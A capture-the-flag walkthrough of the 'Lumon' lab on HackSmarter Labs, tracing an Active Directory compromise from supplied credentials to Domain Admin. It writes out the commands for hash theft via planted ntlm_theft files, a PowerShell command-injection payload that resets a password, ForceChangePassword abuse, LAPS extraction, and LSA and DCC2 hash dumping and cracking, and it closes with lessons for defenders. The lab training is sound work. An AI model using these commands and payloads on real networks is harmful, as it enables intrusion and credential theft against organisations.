Lumon
- Platform: HackSmarter Labs
- Difficulty: Medium
- OS: Windows Server 2025 (Active Directory)
- Key Topics: NTLM Relay, LAPS, BloodHound, ForceChangePassword ACE, Command Injection, LSA Dump
Overview
Lumon Industries will soon be integrating a high-value employee into the organization. In accordance with internal security protocols, a comprehensive penetration test and internal access verification must be conducted prior to full onboarding.
For the purposes of this evaluation, you will be provided the assigned credentials and access permissions corresponding to the subject employee. Your objective is to assess the scope and boundaries of these permissions, ensuring compliance with all Lumon security standards and operational safeguards.
Reconnaissance
[Step 1] Domain Controller Enumeration
I started with a full port scan against the domain controller.
$ nmap -p- -T4 -sC -sV -Pn 10.1.249.22 -o nmap_scanStarting Nmap 7.95 ( https://nmap.org ) at 2026-01-15 11:29 EST
Nmap scan report for DC01.lumons.hacksmarter (10.1.249.22)
Host is up (0.13s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-01-15 16:38:39Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
3389/tcp open ms-wbt-server Microsoft Terminal Services
9389/tcp open mc-nmf .NET Message FramingKey findings from the DC scan:
- Domain:
lumons.hacksmarter - Domain Controller:
DC01.lumons.hacksmarter - Windows Server 2025 Build 26100
- Standard AD services: Kerberos (88), LDAP (389/636), SMB (445), RDP (3389)
[Step 2] Intranet Server Enumeration
A second target was identified - an intranet server.
$ nmap -p- -T4 -sC -sV -Pn 10.1.118.95 -o nmap_scanNmap scan report for 10.1.118.95
Host is up (0.13s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://intranet.lumons.hacksmarter/
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=intranet.lumons.hacksmarter
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)Key findings from the Intranet scan:
- Hostname:
INTRANET.lumons.hacksmarter - Web server on ports 80/443 (IIS 10.0)
- WinRM available on port 5985
- SMB and RDP accessible
[Step 3] Credential Validation and Host Setup
I validated the provided credentials and generated hosts file entries for both targets.
$ nxc smb 10.1.249.22 -u hellyr -p 'H3lenaR!2025'
SMB 10.1.249.22 445 DC01 [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:lumons.hacksmarter) (signing:True) (SMBv1:None)
SMB 10.1.249.22 445 DC01 [+] lumons.hacksmarter\hellyr:H3lenaR!2025
$ nxc smb 10.1.249.22 -u hellyr -p 'H3lenaR!2025' --generate-hosts-file dc_host
$ cat dc_host
10.1.249.22 DC01.lumons.hacksmarter lumons.hacksmarter DC01$ netexec smb 10.1.150.108 -u 'HELLYR' -p 'H3lenaR!2025' --generate-hosts-file intranet_host
SMB 10.1.150.108 445 INTRANET [*] Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET) (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
SMB 10.1.150.108 445 INTRANET [+] lumons.hacksmarter\HELLYR:H3lenaR!2025
$ cat intranet_host
10.1.150.108 INTRANET.lumons.hacksmarter INTRANETsigning:False), which makes it vulnerable to NTLM relay attacks.
Intranet Enumeration
[Step 4] SMB Share Discovery
Enumerating SMB shares on the Intranet server revealed READ/WRITE access to a share called MDRepo.
$ netexec smb 10.1.150.108 -u 'HELLYR' -p 'H3lenaR!2025' --shares
SMB 10.1.150.108 445 INTRANET [*] Enumerated shares
SMB 10.1.150.108 445 INTRANET Share Permissions Remark
SMB 10.1.150.108 445 INTRANET ----- ----------- ------
SMB 10.1.150.108 445 INTRANET ADMIN$ Remote Admin
SMB 10.1.150.108 445 INTRANET C$ Default share
SMB 10.1.150.108 445 INTRANET IPC$ READ Remote IPC
SMB 10.1.150.108 445 INTRANET MDRepo READ,WRITEI connected to the share and downloaded all available files.
$ smbclient //INTRANET/MDRepo -U 'LUMONS.HACKSMARTER\HELLYR%H3lenaR!2025'
smb: \> dir
. D 0 Sat Jan 17 11:43:51 2026
.. DHS 0 Sun Oct 12 12:40:05 2025
Lumons Intranet.url A 131 Sun Oct 12 13:57:18 2025
Lumons_International.pdf A 539001 Sun Oct 12 15:01:45 2025
smb: \> prompt OFF
smb: \> mget *
getting file \Lumons Intranet.url of size 131 as Lumons Intranet.url (0.2 KiloBytes/sec)
getting file \Lumons_International.pdf of size 539001 as Lumons_International.pdf (345.8 KiloBytes/sec)[Step 5] PDF Analysis - Intranet Documentation
The .url file did not contain any credentials. However, the PDF contained valuable information about the internal web server.

The document revealed that any domain user can access the portal, but only administrators can access the admin and terminal panels.

[Step 6] Web Directory Enumeration
I ran directory enumeration against the intranet web server.
$ feroxbuster -u https://intranet.lumons.hacksmarter -k -w /usr/share/wordlists/dirb/big.txt200 GET 194l 386w 4298c https://intranet.lumons.hacksmarter/login
302 GET 5l 22w 199c https://intranet.lumons.hacksmarter/ => https://intranet.lumons.hacksmarter/login
403 GET 5l 27w 213c https://intranet.lumons.hacksmarter/admin
302 GET 5l 22w 199c https://intranet.lumons.hacksmarter/home => https://intranet.lumons.hacksmarter/login
302 GET 5l 22w 199c https://intranet.lumons.hacksmarter/logout => https://intranet.lumons.hacksmarter/login
403 GET 5l 27w 213c https://intranet.lumons.hacksmarter/terminalThis confirmed the existence of /admin and /terminal endpoints mentioned in the PDF documentation. Both returned 403 Forbidden with the hellyr account.
I logged in with the provided credentials but found nothing useful - I couldn't access the admin-restricted resources.

BloodHound Enumeration
[Step 7] Active Directory Data Collection
To find a path for lateral movement, I collected LDAP data for BloodHound analysis.
$ netexec ldap 10.1.132.246 -u 'HELLYR' -p 'H3lenaR!2025' --bloodhound --collection All --dns-server 10.1.132.246
LDAP 10.1.132.246 389 DC01 [+] lumons.hacksmarter\HELLYR:H3lenaR!2025
LDAP 10.1.132.246 389 DC01 Resolved collection methods: psremote, group, localadmin, container, trusts, dcom, session, adcs, objectprops, acl, rdp
LDAP 10.1.132.246 389 DC01 Done in 0M 29S
LDAP 10.1.132.246 389 DC01 Collecting ADCS data (CertiHound)...
LDAP 10.1.132.246 389 DC01 Found 33 certificate templates
LDAP 10.1.132.246 389 DC01 Found 1 Enterprise CAs
LDAP 10.1.132.246 389 DC01 Compressing output into /home/kali/.nxc/logs/DC01_10.1.132.246_2026-01-17_115904_bloodhound.zip[Step 8] Attack Path Analysis
The user hellyr had no outbound object controls. However, checking group memberships revealed another user called MARKS in the same group.


MARKS is a high-value target because compromising this account allows dumping LAPS passwords. Further enumeration showed that the LAPS ADMINS group contained both Domain Admins and a user called PETERK, but PETERK was disabled.

[Step 9] ForceChangePassword ACE Discovery
Checking the inbound object controls for user MARKS revealed that the INTRANETSVC service account has the ForceChangePassword ACE.

Based on this analysis, I mapped out the theoretical attack chain:
INTRANETSVC --> ForceChangePassword --> MARKS --> LAPS --> LOCAL ADMIN --> SAM/LSA DUMP --> DC COMPROMISEExploitation - NTLM Hash Capture
Since I had READ/WRITE access to the MDRepo share, I decided to attempt a watering hole attack to capture NTLM hashes from users browsing the share.
[Step 10] Creating Malicious Files with ntlm_theft
I used ntlm_theft to generate multiple file types that trigger NTLM authentication.
$ python3 ntlm_theft.py -g modern -s 10.200.30.12 -f meetingThen I uploaded all generated files to the SMB share.
$ smbclient //INTRANET/MDRepo -U 'LUMONS.HACKSMARTER\HELLYR%H3lenaR!2025' -c "prompt off; mput meeting*"
putting file meeting-(stylesheet).xml as \meeting-(stylesheet).xml (0.1 kB/s)
putting file meeting.pdf as \meeting.pdf (0.9 kB/s)
putting file meeting-(externalcell).xlsx as \meeting-(externalcell).xlsx (11.5 kB/s)
putting file meeting.rtf as \meeting.rtf (0.2 kB/s)
...[Step 11] Capturing NTLMv2 Hash
With Responder running, I immediately captured a hash for user harmonyc.

Referring back to the PDF, harmonyc should be an administrator of the web service.

[Step 12] Cracking the Hash
I cracked the NTLMv2 hash using Hashcat with module 5600.
$ hashcat -m 5600 harmonyc.hash /usr/share/wordlists/rockyou.txt
Web Application Access
[Step 13] Admin Portal Login
With the admin credentials, I logged into the intranet portal successfully.

[Step 14] Admin Panel Discovery
Enumerating the admin panel revealed two interesting functionalities:
1. Command Injection via Ping Functionality

The ping functionality is running as the intranetsvc user. Compromising this would allow me to follow the planned attack chain.
;, |, or &&.
2. UNC Path Browser Functionality

This functionality allows browsing UNC paths, which can be abused to capture NTLM hashes.
Compromising INTRANETSVC
[Step 15] Method 1: UNC Path Hash Capture
I used the file share browsing functionality to point to my attacker machine while running Responder.


Using Hashcat with module 5600, I cracked the password.

[Step 16] Method 2: Command Injection (Alternative)
Alternatively, I could have used the ping command injection to force change the password directly. First, I encoded the PowerShell command to base64 to handle special characters.
$ echo -n "\$SecPassword = ConvertTo-SecureString 'NewP@ssw0rd123!' -AsPlainText -Force; Set-ADAccountPassword -Identity MarkS -Reset -NewPassword \$SecPassword" | iconv -t UTF-16LE | base64 -w 0Then injected it via the ping functionality:
127.0.0.1;powershell -enc JABTAGUAYwBQAGEAcwBzAHcAbwByAGQAIAA9ACAAQwBvAG4AdgBlAHIAdABUAG8ALQBTAGUAYwB1AHIAZQBTAHQAcgBpAG4AZwAgACcATgBlAHcAUABAAHMAcwB3ADAAcgBkADEAMgAzACEAJwAgAC0AQQBzAFAAbABhAGkAbgBUAGUAeAB0ACAALQBGAG8AcgBjAGUAOwAgAFMAZQB0AC0AQQBEAEEAYwBjAG8AdQBuAHQAUABhAHMAcwB3AG8AcgBkACAALQBJAGQAZQBuAHQAaQB0AHkAIABNAGEAcgBrAFMAIAAtAFIAZQBzAGUAdAAgAC0ATgBlAHcAUABhAHMAcwB3AG8AcgBkACAAJABTAGUAYwBQAGEAcwBzAHcAbwByAGQALateral Movement to MARKS
[Step 17] Force Changing MARKS Password
Using bloodyAD, I leveraged the ForceChangePassword ACE to reset the MARKS password.
$ bloodyAD -u 'IntranetSvc' -p '[REDACTED]' --host DC01.lumons.hacksmarter set password 'MARKS' 'NewP@ssw0rd123!'
Validating access:

LAPS Password Extraction
[Step 18] Extracting LAPS Credentials
With MARKS compromised, I could now extract LAPS passwords using NetExec.
$ nxc ldap 10.1.132.246 -u MarkS -p 'NewP@ssw0rd123!' -M laps
Privilege Escalation on INTRANET
[Step 19] UAC Bypass via RDP
Due to UAC filtering, I couldn't use the local admin credentials for remote elevated access via WinRM/SMB. However, RDP access was available.

$ xfreerdp3 /v:INTRANET /u:localadmin /p:'[REDACTED]' +dynamic-resolution[Step 20] User Flag
The user flag is located at C:\Users\MarkS\Desktop.
[Step 21] Adding MARKS to Local Administrators
I opened a CMD shell as administrator (accepting the UAC prompt) and added MARKS to the local Administrators group.
> net localgroup Administrators MarkS /add
LSA Dump and Domain Admin Compromise
[Step 22] Dumping LSA Secrets
With local admin access, I dumped LSA secrets and found multiple DCC2 hashes, including one for Domain Admin hellye.

[Step 23] Cracking Domain Admin Hash
Using Hashcat with module 2100 (DCC2), I cracked the Domain Admin password.
$ hashcat -m 2100 hellye.hash /usr/share/wordlists/rockyou.txt
[Step 24] Validating Domain Admin Access

Root Flag
[Step 25] Domain Controller Access
I connected to the Domain Controller via RDP as the Domain Admin.
$ xfreerdp3 /v:10.1.132.246 /u:hellye /p:'[REDACTED]' +dynamic-resolutionThe root flag is located at C:\Users\Administrator\Desktop.
Attack Chain Summary
hellyr (starting access)
|
v
SMB Share Enumeration --> MDRepo share with READ/WRITE
|
v
NTLM Theft via Watering Hole --> harmonyc hash captured
|
v
Web Admin Access --> Command Injection & UNC Path Browser discovered
|
v
INTRANETSVC hash captured via UNC Path --> Password cracked
|
v
ForceChangePassword ACE --> MARKS password reset
|
v
LAPS Password Extraction --> localadmin on INTRANET
|
v
RDP Access + LSA Dump --> DCC2 hash for hellye (Domain Admin)
|
v
Domain Admin Compromised --> DC01 Root AccessDetailed Steps:
- Initial Access - Started with provided credentials for
hellyr - SMB Enumeration - Discovered MDRepo share with READ/WRITE access
- NTLM Theft - Placed malicious files on share, captured
harmonychash - Web Admin Access - Used cracked credentials to access admin panel
- Service Account Compromise - Captured
INTRANETSVChash via UNC path browser - Lateral Movement - Used ForceChangePassword ACE to reset
MARKSpassword - LAPS Extraction - Retrieved local admin password for INTRANET server
- Privilege Escalation - RDP access, LSA dump revealed Domain Admin
hellyecredentials - Domain Compromise - Full control of DC01 as Domain Admin
Lessons Learned
For Defenders
- Enable SMB signing on all servers to prevent NTLM relay attacks
- Audit file share permissions - avoid granting write access to sensitive shares
- Review ACEs like ForceChangePassword - restrict these to dedicated admin accounts
- Implement network segmentation to limit lateral movement opportunities
- Use Credential Guard to protect cached credentials from LSA dumps
- Monitor for suspicious authentication patterns (e.g., NTLM traffic to external IPs)
- Regularly audit LAPS access permissions
For Pentesters
- Check SMB signing - disabled signing opens NTLM relay opportunities
- Writable shares are valuable for watering hole attacks with ntlm_theft
- BloodHound is essential for mapping AD attack paths, especially ACE abuse
- UNC path features in web apps can be exploited for hash capture
- DCC2 hashes from LSA dumps can reveal privileged account credentials
- Document the full attack chain for clear reporting
Walkthrough by Zerotrace | HackSmarter Labs